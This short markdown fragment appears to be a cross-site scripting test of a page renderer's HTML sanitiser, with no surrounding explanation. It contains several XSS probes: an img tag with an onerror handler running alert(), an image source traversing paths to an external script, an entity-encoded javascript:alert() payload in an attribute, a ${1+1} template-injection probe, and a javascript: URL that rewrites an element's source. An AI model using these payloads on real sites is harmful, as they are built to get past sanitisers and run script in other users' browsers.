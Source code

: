 ![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<img src="[[[alert()]]" onerror="alert()">

<img id="meu" src="" tabindex=&#60;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;></div>
<div id="${1+1}">bbbb</div>
<span value="javascript:document.getElementById('user-content-meu').src='123';">aaa</span>

](()

